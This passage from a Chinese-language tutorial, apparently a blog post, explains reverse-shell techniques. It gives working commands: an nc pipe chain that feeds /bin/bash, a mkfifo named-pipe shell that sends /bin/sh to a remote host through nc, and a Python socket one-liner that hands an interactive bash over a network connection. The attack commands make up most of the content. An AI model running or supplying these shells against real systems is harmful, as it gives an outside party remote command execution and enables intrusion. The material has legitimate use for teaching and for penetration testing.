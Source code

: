 ## 0x3：“管道符”+ “socket网络通信”实现bash反弹shell

### 1. 基于匿名管道（pipe）传递指令流

匿名管道（pipe）是内核中的一个单向数据通道，管道有一个读端和一个写端。一般用于父子进程之间的通信。

[![复制代码](https://assets.cnblogs.com/images/copycode.gif)](javascript:void(0);)

```
# client
nc 192.168.43.146 7777 | /bin/bash | nc 192.168.43.146 8888
# server
ncat -lvvp 7777
# server 
ncat -lvvp 8888
```

[![复制代码](https://assets.cnblogs.com/images/copycode.gif)](javascript:void(0);)

![img](https://img2018.cnblogs.com/blog/532548/201912/532548-20191215104646111-1137243959.png)

bash进程的输入输出都来自其他进程的pipe。

### 2. 基于命名管道（fifo）

fifo是命名管道也被称为FIFO文件，它是一种特殊类型的文件，它在文件系统中以文件名的形式存在（因为多个进程要识别），它的行为和匿名管道类似（一端读一端写），但是FIFO文件也不在磁盘进行存储。一般用于进程间的通信。

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 110.211.55.2 7777 >/tmp/f
```

- mkfifo 命令首先创建了一个管道
- cat 将管道里面的内容输出传递给/bin/sh
- sh会执行管道里的命令并将标准输出和标准错误输出结果通过 nc 传到该管道，由此形成了一个回路

## 0x4：git解释性脚本语言反弹shell

### 1. python反弹shell

[![复制代码](https://assets.cnblogs.com/images/copycode.gif)](javascript:void(0);)

```
python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('ip',port));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);"

# 拆成多行方便阅读
import os,socket,subprocess
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(('ip',port))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(['/bin/bash','-i'])
```
